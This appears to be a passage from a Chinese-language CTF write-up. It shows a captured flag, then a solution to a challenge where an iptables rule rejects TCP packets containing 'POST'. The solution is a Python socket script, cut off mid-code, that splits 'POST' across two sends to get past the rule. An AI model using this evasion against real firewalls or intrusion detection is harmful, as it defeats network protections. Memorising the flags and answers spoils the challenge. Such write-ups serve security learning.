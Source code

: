 ```
flag{Y0U-@re-@CCEPTeD-70-CONT!nU3-tHe-9aME}
```

赛后发现这题其实直接遍历7字符以内的输入给模型喂就好了（

后面两个小题是训练集里没有的东西，感觉需要 fuzz 来造，或者输入一些奇妙的 bytes，毕竟是接收任意 byte 来输出的

- [Summary of the tokenizers](https://huggingface.co/docs/transformers/tokenizer_summary)

- [Byte-Pair Encoding tokenization](https://huggingface.co/learn/nlp-course/chapter6/5) 

  Byte-Pair Encoding (BPE) was initially developed as an algorithm to  compress texts, and then used by OpenAI for tokenization when  pretraining the GPT model. It’s used by a lot of Transformer models,  including GPT, GPT-2, RoBERTa, BART, and DeBERTa.



## Komm, süsser Flagge

**切割！** ~~Z佬！~~

### 我的 POST

```bash
-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset
```

直接问 chatgpt

> 这是一个使用`iptables`的规则，用于检测和拦截TCP数据包中包含"POST"字符串的数据包。这条规则会使用Boyer-Moore搜索算法(`--algo bm`)来查找字符串，并当找到该字符串时拒绝该数据包，并发送一个TCP RST包(`--reject-with tcp-reset`)来中断连接。这里是规则的解读：
>
> - `-A myTCP-1`: 将此规则添加到名为"myTCP-1"的链中。
> - `-p tcp`: 仅匹配TCP协议的数据包。
> - `-m string`: 使用string模块来进行内容检测。
> - `--algo bm`: 使用Boyer-Moore搜索算法。
> - `--string "POST"`: 搜索"POST"这个字符串。
> - `-j REJECT`: 当匹配时，执行拒绝操作。
> - `--reject-with tcp-reset`: 使用TCP RST来拒绝。

明文匹配 "POST" 字符串，只需要将这个字符串切割到不同段 TCP 数据包里就好了。

使用Python的`socket`库，我们可以模拟将"POST"字符串分割到两个不同的TCP数据包中，然后打印服务器的响应。

```python
import socket

def send_split_post_request(host, port):
    # 创建一个TCP/IP套接字
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # 连接到服务器
    s.connect((host, port))
    
    # 第一部分数据，只包含"POS"
    request_part1 = "POS"
    s.sendall(request_part1.encode())
    
    # 第二部分数据，包含"T"和一个简单的HTTP请求的其余部分
    request_part2 = """T / HTTP/1.1
Host: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 100

114514:asdfgh==
""".format(host)  # 使用Connection: close确保服务器在发送响应后关闭连接
    s.sendall(request_part2.encode())
    
```